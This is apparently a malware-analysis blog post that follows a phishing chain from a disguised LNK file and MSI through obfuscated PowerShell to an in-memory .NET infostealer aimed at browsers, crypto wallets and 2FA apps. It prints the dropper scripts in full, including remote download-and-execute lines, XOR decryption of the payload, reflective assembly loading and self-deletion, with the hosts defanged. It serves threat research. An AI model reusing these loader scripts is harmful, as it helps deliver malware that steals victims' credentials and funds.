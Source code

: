 ## Phishing for InfoStealers - Deobfuscating PowerShell & Reversing a .NET Binary 

I recently came across a site which hosts multiple zip archives masquerading as PDF documents. The aim is to distribute a second-stage PowerShell script which executes a .NET binary in memory. The binary collects system information and targets software such as web browsers, cryptocurrency wallets, two-factor authentication applications and gaming software.

## Initial LNK File

The file is delivered to the victim via email, which prompts them to download and open the following file:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0451615-f6eb-40e0-85fd-891396665494)

A Zip archive is downloaded, which contains a Lnk file, masquerading with a PDF icon.

LNK Target Path (Defanged): 
```
C:\Windows\System32\msiexec.exe -package hxxPs[:/\]onedrive.live[.]com/download?cid=85B4181C5D4F7514&resid=58504D327740F380%21149&authkey=AIHrvoeE31NvUiI&.msi -qn
```

Upon execution, MsiExec would execute with the argument to download and execute a MSI file from the OneDrive URL provided.

## MSI File Analysis 

This downloaded a file called "42WiseAnyConnect.msi", which we can extract a PowerShell script from using lessmsi:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/76fd615d-1298-47ac-bf25-a9e719da17d3)

## PowerShell Deobfuscation

PowerShell Script:
``` powershell
.(-join[char[]]((570-465),(266-165),(354-234)))(-join[char[]]((65678-399),(939-856),(959-858),(460-344),(618-573),(926-850),(700-589),(648-549),(283-186),(223-107),(596-491),(1006-895),(308-198),(440-408),(1038-971),(614-556),(332-240),(417-330),(826-721),(849-739),(734-634),(782-671),(619-500),(468-353),(309-217)(466-382),(787-686),(775-666),(724-612),(347-255),(933-846),(972-867),(959-849),(1063-963),(810-699),(897-778),(265-150),(611-544),(1077-963),(321-224),(421-306),(906-802),(528-452),(878-767),(927-824),(423-308),(543-497),(789-679),(1001-948),(960-845),(526-404),(924-838),(784-683),(867-747),(640-588),(361-305),(971-857),(590-535),(616-533),(967-910),(192-122),(656-589),(370-288),(548-450),(783-726),(943-865),(647-578),(226-159),(592-475),(323-313),(400-390),(929-893),(315-227),(883-763),(888-800),(411-324),(520-446),(625-554),(754-648),(775-695),(554-435),(346-226),(370-305),(235-203),(535-474),(633-601),(871-826),(675-569),(389-278),(353-248),(989-879),(725-634),(657-558),(262-158),(387-290),(524-410),(384-293),(860-767),(780-687),(638-598),(149-109),(349-292),(1049-996),(1008-960),(573-528),(480-424),(310-257),(914-863),(929-888),(243-199),(757-717),(945-888),(899-845),(987-935),(474-429),(731-675),(570-516),(859-805),(478-437),(812-768),(914-874),(858-802),(168-118),(560-512),(465-420),(950-895),(603-553),(910-861),(996-955),(966-922),(876-836),(362-313),(595-547),(766-710),(709-653),(906-861),(492-435),(949-893),(696-640),(824-783),(365-321),(611-571),(433-378),(722-668),(608-551),(924-879),(688-634),(726-672),(168-112),(283-242),(566-522),(1015-975),(822-765),(937-886),(995-943),(725-680),(329-273),(430-379),(422-372),(333-292),(463-419),(179-139),(752-703),(1039-991),(277-220),(410-354),(380-335),(443-386),(1052-995),(580-527),(537-496),(519-475),(862-822),(651-594),(441-393),(979-924),(349-304),(229-173),(430-382),(564-513),(970-929),(858-814),(208-168),(1010-958),(646-594),(555-503),(833-788),(349-298),(487-436),(722-665),(290-249),(706-662),(271-231),(596-542),(260-212),(209-161),(837-792),(423-371),(961-904),(442-390),(647-606),(434-390),(161-121),(370-320),(823-771),(541-492),(1041-996),(348-299),(245-194),(887-835),(504-463),(828-784),(334-294),(730-674),(187-132),(1044-989),(639-594),(295-240),(813-759),(1006-949),(731-690),(714-670),(619-579),(422-370),(770-718),(753-699),(220-175),(262-211),(343-292),(820-765),(177-136),(494-450),(583-543),(889-839),(479-424),(997-949),(441-396),(561-512),(458-404),(304-256),(607-566),(952-908),(836-796),(437-385),(531-477),(875-819),(828-783),(900-849),(698-645),(470-415),(527-486),(988-944),(161-121),(408-356),(238-182),(478-428),(281-236),(214-163),(496-441),(216-168),(1006-965),(244-200),(428-388),(161-112),(349-301),(1035-983),(248-193),(649-604),(163-106),(966-915),(287-235),(927-886),(778-734),(869-829),(468-416),(480-427),(1017-967),(150-105),(1051-1000),(1009-958),(367-311),(397-356),(685-641),(583-543),(643-588),(641-590),(463-414),(778-733),(323-269),(189-140),(653-599),(572-531),(162-118),(157-117),(471-421),(705-650),(757-700),(793-748),(814-765),(297-243),(473-422),(536-495),(600-556),(916-876),(494-440),(1037-981),(314-261),(997-952)
(1014-961),(268-214),(178-122),(238-197),(485-441),(707-667),(726-669),(311-260),(461-409),(612-567),(941-885),(261-212),(734-680),(518-477),(438-394),(854-814),(987-933),(939-890),(429-373),(633-588),(231-179),(1018-961),(577-520),(303-262),(167-123),(362-322),(308-258),(502-450),(256-207),(527-482),(631-582),(808-758),(948-899),(686-645),(282-238),(186-146),(774-725),(776-728),(209-156),(813-760),(475-430),(415-358),(571-520),(626-574),(750-709),(650-606),(508-468),(793-744),(684-636),(700-649),(427-371),(873-828),(994-937),(243-194),(202-148),(950-909),(253-209),(344-304),(488-433),(745-693),(253-203),(755-710),(220-166),(224-169),(486-431),(224-183),(993-949),(906-866),(216-163),(922-873),(699-646),(927-882),(1040-988),(547-495),(222-165),(879-838),(1043-999),(207-167),(988-939),(891-836),(217-164),(198-153),(673-624),(904-856),(381-325),(185-144),(200-156),(363-323),(428-372),(739-686),(552-498),(205-160),(908-853),(879-823),(601-545),(529-488),(1037-993),(744-704),(167-118),(158-110),(271-222),(359-304),(816-771),(218-161),(254-202),(560-504),(506-465),(469-425),(503-463),(468-411),(420-372),(354-304),(229-184),(969-913),(200-149),(759-709),(283-242),(503-459),(442-402),(523-467),(939-890),(283-229),(521-476),(186-131),(563-511),(918-865),(153-112),(163-119),(335-295),(406-354),(1049-998),(1045-989),(1043-998),(578-527),(380-326),(593-539),(454-413),(393-349),(640-600),(353-304),(332-284),(414-365),(1038-987),(162-117),(1035-978),(1029-977),(697-649),(442-401),(692-648),(202-162),(753-701),(660-609),(988-933),(194-149),(922-871),(744-690),(922-871),(287-246),(612-568),(643-603),(799-748),(736-681),(679-631),(906-861),(586-536),(730-673),(620-567),(284-243),(166-122),(737-697),(645-593),(170-115),(253-196),(696-651),(845-793),(991-943),(309-258),(1029-988),(370-326),(322-282),(315-263),(803-753),(297-245),(494-449),(778-727),(918-866),(457-402),(409-368),(528-484),(425-385),(459-407),(719-666),(205-150),(972-927),(970-919),(249-194),(1024-967),(570-529),(481-437),(683-643),(731-681),(301-247),(300-250),(424-379),(302-253),(876-820),(293-242),(528-487),(373-329),(213-173),(585-534),(919-866),(956-906),(409-364),(868-818),(474-419),(424-374),(654-613),(848-804),(209-169),(270-215),(204-155),(992-942),(963-918),(548-494),(760-709),(428-379),(148-107),(153-109),(466-426),(648-593),(468-413),(898-845),(235-190),(788-734),(438-381),(1030-979),(366-325),(251-207),(725-685),(1039-985),(727-679),(748-699),(879-834),(559-506),(552-503),(900-844),(262-221),(1025-981),(463-423),(498-447),(393-337),(630-578),(877-832),(177-126),(456-408),(591-543),(702-661),(682-638),(241-201),(605-548),(825-772),(479-428),(575-530),(376-320),(326-272),(283-227),(671-630),(1012-968),(313-273),(497-443),(498-442),(613-556),(876-831),(458-404),(496-448),(858-807),(750-709),(353-309),(847-807),(1016-961),(312-257),(655-598),(190-145),(284-230),(366-309),(711-661),(318-277),(633-589),(321-281),(322-265),(604-551),(419-371),(379-334),(281-225),(981-927),(587-537),(721-680),(852-808),(305-265),(229-175),(838-790),(543-491),(597-552),(371-318),(580-531),(166-113),(427-386),(799-755),(589-549),(859-807),(429-374),(516-465),(533-488),(978
927),(380-324),(850-799),(936-895),(460-416),(190-150),(166-117),(822-774),(589-537),(913-857),(637-592),(593-536),(271-214),(759-702),(598-557),(245-201),(765-725),(926-874),(857-802),(519-463),(990-945),(444-392),(634-584),(649-593),(471-430),(174-130),(557-517),(263-214),(832-778),(540-485),(785-740),(289-240),(241-192),(328-274),(591-550),(309-265),(719-679),(559-502),(553-499),(975-919),(568-523),(181-124),(580-531),(274-220),(523-482),(527-483),(207-167),(556-504),(520-470),(551-502),(402-357),(583-532),(545-491),(1035-979),(291-250),(948-904),(751-711),(600-544),(939-891),(761-713),(420-375),(1013-958),(804-752),(507-453),(331-290),(196-152),(151-111),(624-570),(895-844),(705-655),(622-577),(225-172),(398-343),(437-382),(496-455),(618-574),(255-215),(930-877),(208-157),(260-210),(808-763),(270-218),(445-390),(512-458),(247-206),(834-790),(203-163),(829-773),(807-751),(639-585),(882-837),(537-481),(841-791),(446-389),(640-599),(422-378),(770-730),(816-762),(291-235),(221-171),(751-706),(551-497),(164-113),(165-113),(400-359),(854-813),(757-747),(424-388),(236-157),(976-899),(842-774),(656-586),(299-196),(477-370),(649-566),(479-404),(644-540),(347-243),(843-740),(871-772),(261-229),(956-895),(706-674),(774-734),(703-654),(693-647),(286-240),(752-703),(331-281),(897-865),(923-799),(413-381),(490-420),(410-299),(624-510),(204-135),(579-482),(393-294),(276-172),(178-133),(1029-950),(377-279),(1073-967),(258-157),(974-875),(397-281),(540-508),(529-406),(476-444),(188-117),(502-401),(1084-968),(515-470),(708-626),(543-446),(954-844),(430-330),(638-527),(519-410),(915-883),(641-596),(216-143),(871-761),(472-360),(738-621),(969-853),(774-695),(526-428),(616-510),(705-604),(517-418),(873-757),(642-610),(1012-976),(903-815),(278-158),(573-485),(457-370),(703-629),(687-616),(907-801),(393-313),(322-203),(269-149),(593-528),(262-216),(1014-930),(391-280),(174-107),(877-773),(335-238),(315-201),(633-568),(869-755),(216-102),(555-458),(386-265),(887-847),(911-870),(138-106),(313-188),(315-274),(383-373),(232-222),(892-856),(1024-939),(226-152),(370-267),(676-594),(804-696),(595-498),(808-739),(1063-986),(996-913),(361-329),(275-214),(612-580),(389-318),(1091-990),(480-364),(589-544),(1034-952),(402-305),(759-649),(974-874),(918-807),(1072-963),(877-845),(558-513),(691-614),(721-616),(519-409),(550-445),(803-694),(619-502),(925-816),(560-528),(303-254),(830-778),(781-749),(779-734),(476-399),(611-514),(796-676),(968-863),(628-519),(538-421),(863-754),(498-466),(656-599),(1028-978),(747-737),(357-274),(424-308),(536-439),(567-453),(289-173),(821-776),(273-190),(285-177),(1000-899),(1019-918),(416-304),(864-832),(834-789),(721-638),(383-282),(224-125),(492-381),(347-237),(430-330),(1103-988),(510-478),(976-940),(745-660),(444-370),(272-169),(320-238),(472-364),(205-108),(432-363),(855-778),(685-602),(909-899),(402-366),(539-473),(853-781),(485-363),(592-527),(541-420),(341-276),(609-538),(897-808),(1075-976),(135-103),(427-366),(153-121),(940-895),(721-615),(785-674),(533-428),(896-786),(202-111),(1084-985),(437-333),(838-741),(238-124),(936-845),(666-573),(767-674),(893-853),(146-106),(422-368),(1026-976),(964-915),(707
662),(926-873),(474-425),(630-575),(849-808),(725-681),(809-769),(824-767),(192-136),(727-674),(800-755),(582-526),(173-119),(337-280),(660-619),(555-511),(873-833),(324-272),(877-824),(496-447),(981-936),(826-775),(494-443),(661-608),(749-708),(663-619),(240-200),(970-921),(284-236),(863-813),(539-487),(395-350),(599-542),(532-483),(322-272),(269-228),(649-605),(829-789),(932-880),(305-252),(744-693),(613-568),(382-331),(474-417),(939-886),(580-539),(657-613),(891-851),(790-736),(953-896),(877-822),(666-621),(696-642),(530-477),(906-858),(664-623),(473-429),(203-163),(869-812),(617-565),(752-696),(863-818),(530-473),(273-225),(385-336),(497-456),(211-167),(162-122),(745-690),(812-764),(375-324),(204-159),(1036-982),(505-452),(457-405),(860-819),(190-146),(574-534),(694-644),(209-156),(372-319),(1006-961),(325-275),(196-148),(347-297),(163-122),(899-855),(1033-993),(225-170),(683-634),(256-204),(200-155),(1047-993),(613-559),(389-337),(562-521),(760-716),(789-749),(186-132),(506-450),(882-827),(242-197),(1008-954),(835-783),(644-595),(213-172),(462-418),(207-167),(1045-991),(606-550),(839-782),(931-886),(266-212),(556-505),(708-657),(415-374),(345-301),(625-585),(416-367),(349-292),(1015-963),(326-281),(403-354),(989-938),(901-846),(422-381),(824-780),(179-139),(165-110),(321-270),(517-460),(898-853),(414-360),(256-199),(308-257),(703-662),(410-366),(448-408),(660-610),(590-539),(530-477),(225-180),(800-751),(353-297),(240-186),(548-507),(200-156),(873-833),(806-753),(339-285),(313-259),(429-384),(513-460),(561-513),(178-121),(627-586),(615-571),(537-497),(427-370),(1012-956),(412-360),(412-367),(265-208),(157-107),(599-543),(934-893),(526-482),(371-331),(697-640),(571-523),(882-828),(457-412),(818-762),(421-367),(495-447),(187-146),(267-223),(520-480),(360-306),(452-395),(874-821),(462-417),(693-639),(158-106),(587-534),(815-774),(730-686),(722-682),(400-346),(226-177),(610-556),(891-846),(1027-974),(689-635),(711-657),(840-799),(220-176),(1014-974),(518-466),(508-459),(575-518),(157-112),(631-580),(307-253),(202-150),(877-836),(768-724),(609-569),(733-676),(596-548),(980-923),(829-784),(398-342),(646-593),(363-314),(944-903),(464-420),(344-304),(647-591),(785-731),(391-339),(975-930),(714-658),(308-259),(828-779),(646-605),(821-777),(812-772),(267-210),(1036-981),(720-664),(727-682),(428-371),(338-287),(861-813),(629-588),(209-165),(855-815),(413-361),(244-196),(636-587),(161-116),(952-901),(920-867),(230-179),(948-907),(434-390),(870-830),(177-127),(458-408),(528-472),(902-857),(210-161),(1024-968),(677-629),(184-143),(731-687),(348-308),(911-862),(287-239),(471-423),(870-815),(582-537),(442-385),(868-814),(361-313),(534-493),(1012-971),(574-564),(494-458),(948-867),(875-795),(630-508),(939-853),(908-806),(650-584),(876-797),(930-841),(604-497),(490-458),(1045-984),(644-612),(701-665),(572-506),(905-833),(520-398),(792-727),(638-517),(806-741),(633-562),(454-365),(713-614),(564-532),(222-179),(425-393),(325-289),(343-264),(549-472),(299-231),(827-757),(353-250),(806-699),(577-494),(965-890),(205-101),(504-400),(865-762),(550-451),(815-805),(721-685),(442-330),(196-108),(575-493),(508-392),(548-434),(1051
981),(416-346),(807-702),(814-724),(1055-981),(1062-940),(778-692),(273-241),(641-580),(746-714),(687-616),(794-693),(969-853),(247-202),(406-324),(1022-925),(921-811),(770-670),(751-640),(626-517),(574-542),(172-127),(993-916),(752-647),(725-615),(725-620),(679-570),(496-379),(877-768),(263-231),(442-392),(234-183),(509-477),(207-162),(794-717),(264-167),(977-857),(335-230),(223-114),(648-531),(482-373),(1000-968),(455-399),(373-324),(797-787),(960-877),(954-838),(239-142),(430-316),(497-381),(504-459),(231-148),(980-872),(494-393),(746-645),(774-662),(999-967),(971-926),(1017-934),(697-596),(932-833),(565-454),(366-256),(920-820),(800-685),(702-670),(166-130),(1078-966),(211-123),(1050-968),(358-242),(430-316),(1031-961),(261-191),(1067-962),(277-187),(199-125),(646-524),(808-722),(294-284),(369-359),(278-242),(334-212),(362-272),(1032-912),(476-397),(441-355),(942-823),(1009-944),(374-273),(568-536),(488-427),(956-924),(492-419),(1051-941),(1097-979),(321-210),(645-538),(1004-903),(1034-989),(602-515),(380-279),(643-545),(677-595),(366-265),(701-588),(691-574),(534-433),(1018-903),(436-320),(151-119),(553-508),(941-856),(576-461),(428-327),(975-909),(288-191),(686-571),(392-287),(756-657),(1064-984),(203-106),(672-558),(543-428),(602-497),(491-381),(369-266),(167-135),(672-627),(512-427),(583-469),(278-173),(1014-982),(411-375),(548-467),(690-610),(474-352),(582-496),(630-528),(699-633),(502-423),(238-149),(213-106),(723-713),(950-914),(337-248),(508-438),(624-558),(738-668),(650-530),(230-147),(801-695),(796-729),(745-643),(675-565),(937-870),(490-458),(657-596),(483-451),(651-560),(777-694),(509-388),(1110-995),(740-624),(745-644),(360-251),(366-320),(290-206),(568-467),(340-220),(229-113),(760-714),(230-161),(228-118),(237-138),(978-867),(251-151),(814-709),(1004-894),(387-284),(839-746),(516-458),(729-671),(378-293),(452-368),(968-898),(752-696),(739-693),(281-210),(1064-963),(239-123),(467-384),(348-232),(247-133),(627-522),(1030-920),(452-349),(910-870),(598-562),(937-815),(468-378),(476-356),(199-120),(602-516),(644-525),(210-145),(731-630),(758-712),(689-622),(670-559),(290-180),(670-554),(966-865),(304-194),(1042-926),(511-470),(348-338),(375-365),(753-680),(586-476),(944-826),(420-309),(562-455),(299-198),(293-248),(842-773),(560-440),(914-802),(403-289),(782-681),(1043-928),(551-436),(979-874),(1068-957),(813-703),(830-798),(280-235),(464-397),(1038-927),(835-726),(846-737),(664-567),(547-437),(775-675),(736-704),(725-689),(642-553),(309-239),(425-359),(393-323),(992-872),(277-194),(342-236),(571-504),(734-632),(1062-952),(993-926),(447-437),(630-620),(234-151),(825-709),(406-309),(912-798),(286-170),(379-334),(413-330),(723-615),(1011-910),(636-535),(227-115),(815-783),(151-106),(900-817),(686-585),(668-569),(1107-996),(476-366),(796-696),(335-220),(357-325),(839-785),(573-525),(911-863),(125-115),(785-775),(579-497),(498-397),(594-485),(613-502),(945-827),(578-477),(177-132),(576-503),(623-507),(788-687),(406-297),(408-376),(512-467),(315-235),(670-573),(478-362),(466-362),(834-802),(609-573),(928-848),(501-418),(330-263),(796-685),(323-214),(286-177),(841-744),(291-181),(555-455),(409-329),(271
174),(649-533),(717-613),(927-895),(559-514),(746-676),(1087-976),(683-569),(839-740),(1092-991)))
```

We can deobfuscate this simply by using an echo command before the command block, which gives us the following:

``` powershell
.
iex
﻿Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$XxXWJGjPwxA = -join[char[]]((950-853),(964-866),(820-721),(1088-988),(769-668),(934-832),(1098-995),(907-803),(444-339),(600-494),(241-134),(877-769),(446-337),(270-160),(468-357),(482-370),(1047-934),(452-338),(731-616),(279-163),(685-568),(934-816),(618-499),(241-121),(1055-934),(1038-916),(742-677),(515-449),(175-108),(856-788),(1017-948),(902-832),(816-745),(438-366),(1013-940),(437-363),(370-295),(479-403),(424-347),(457-379),(262-183),(352-272),(712-631),(775-693),(601-518),(384-300),(953-868),(689-603),(779-692),(950-862),(604-515),(473-383),(1048-999),(478-428),(167-116),(968-916),(421-368),(800-746),(632-577),(532-476),(886-829),(682-634))
$OMDFgkSKhhgc = (1..12 | ForEach-Object { Get-Random -InputObject $XxXWJGjPwxA.ToCharArray() })

$UJgRlaEMS = Get-Random -Minimum 14 -Maximum 92
Start-Sleep -Seconds $UJgRlaEMS
$BHzAyAGYc = -join[char[]]((621-517),(985-869),(451-335),(1024-912),(453-395),(697-650),(948-901),(703-654),(255-202),(714-664),(687-641),(689-633),(194-137),(739-693),(235-186),(566-509),(984-928),(906-860),(695-645),(616-566),(419-364),(909-851),(864-811),(978-930),(401-353),(228-180),(1007-960))
$QPzVfBOYk = $BHzAyAGYc + $OMDFgkSKhhgc
$pXRtrFFiZJzV = Get-Random -Minimum 23 -Maximum 81
Start-Sleep -Seconds $pXRtrFFiZJzV

$zZxOVwAe = Invoke-WebRequest -UseBasicParsing -Uri $QPzVfBOYk
$YFBFxSjCfnC = [System.Text.Encoding]::UTF8.GetString($zZxOVwAe.Content)

Invoke-Expression -Command $YFBFxSjCfnC

Start-Sleep -Seconds 600

Remove-Item -Path $PSCommandPath -Force
```

We can work out the variables using a similar method, we'll echo the join[char] string, and convert the output from decimal to ASCII.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/116468c3-948a-4dee-bb3d-bf702d0ee877)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f33f098b-ad0c-4fb0-9e85-f624dd3db7e5)



[-] $XxXWJGjPwxA = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890

[-] $BHzAyAGYc = hxxp[://]152.89.198[.]227:5000/

Essentially the script is downloading and executing the content from the IP:Port above, with a random 12-character string URI

The script which lives there is the following:

``` powershell
Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$rnd = Get-Random -Minimum 13 -Maximum 91
Start-Sleep -Seconds $rnd

$randomFunctions = @(
    { return [math]::Pi * (Get-Random -Minimum 0 -Maximum 100) },
    { return [guid]::NewGuid().ToString() },
    { return Get-Random -Minimum 0 -Maximum 100 }
)

$randomFunction = Get-Random -InputObject $randomFunctions`

try {
    $dotNetVersion = (Get-Command 'dotnet').Version.Major
    if ($dotNetVersion -ge 4) {
        Write-Host "Installed Version .NET Runtime: $dotNetVersion"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap4.ps1')" -NoNewWindow
    } else {
        Write-Host "$randomValue"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
    }
} catch {
    Write-Host "$randomValue"
    Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
}

$rnd2 = Get-Random -Minimum 12 -Maximum 73
Start-Sleep -Seconds $rnd2


Remove-Item $PSCommandPath -Force

```

The main takeaway from this is that the script checks the .NET version of the victim host, the outcome of which decides which script will be executed.

Next stage:

``` powershell
[byte[]] $binary = (Long Byte Arary)

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$config = (new-object net.webclient).downloadstring("hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW").Split('|')
$k = $config[0];

for ($i = 0; $i -lt $binary.Length ; ++$i)
{
	$binary[$i] = $binary[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($binary)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3])))
```
The following actions are performed by the script:

[-] Retrieves the MachineGuid from the Windows registry: $guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid

[-] Retrieves 3 values from 'hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW' and assigns them to the $config array.

[-] Performs a bitwise XOR operation (-bxor) on the binary array with the first value.

[-] Loads the binary data as a .NET assembly using [System.Reflection.Assembly]::Load($binary).

[-] Accessing the entry point of the loaded assembly: $ep = $sm.EntryPoint.

[-] Invokes the entry point of the assembly with the three values: $ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3]))).

The values are as follows:

zpsoJEKDxaCoTLVurobI|ezzcAvVW|hxxp[://]45.129.199[.]204/index.php|

We know that the first value is the XOR key, so we can use this to retrieve the binary from the byte array using CyberChef.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/50343d38-5655-4491-b786-f72712eb31ee)

## Binary Analysis

The binary can be reviewed in DNSpy as it is a .NET binary, however, it is extremely obfuscated as it has been protected with ConfuserEx.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c2fa5c5d-54e7-4874-a240-20168cd6fbc8)

We can use a Confuser Unpacker to make this code a lot easier to read, I'll be using this - https://github.com/XenocodeRCE/ConfuserEx-Unpacker/tree/master

Unpack the binary:

```
C:\Users\mzheader\Desktop\ConfuserEx-Unpacker-master\ConfuserEx Dynamic Unpacker\bin\Debug > & '.\ConfuserEx Dynamic Unpacker.exe' -s C:\Users\mzheader\Desktop\confusing.exe
```

Instantly, we can see the two arguments being passed from the previous web request

(buildID = 'ezzcAvVW' and URL =  'hxxp[://]45.129.199[.]204/index.php')

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/2cc1b5a0-0b00-4a0e-b6de-44a0cde031ca)

There are lots functions typical of info-stealing malware, described below:

**Finding and stealing sensitive browser information**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/13e30051-0c28-443e-af05-d412cdbea19b)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/68c2bf01-3f44-4c89-ad43-189df3d437fc)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/88e34856-1b24-4578-b749-a67c7a5eeee9)


**Crypto Wallet Paths being defined:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/49ad2d13-5946-4182-8ac7-f16d75f77be1)

**Screenshot functionality:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9dc09b92-a8f7-435f-a888-37dcc6ed3a9a)

**Collecting System information**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5304ba0-b812-480e-a604-10e13d5f125f)

**Full List of interesting function names:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/0b7588e0-e338-4895-8ad3-b2dac3ddbd2e)



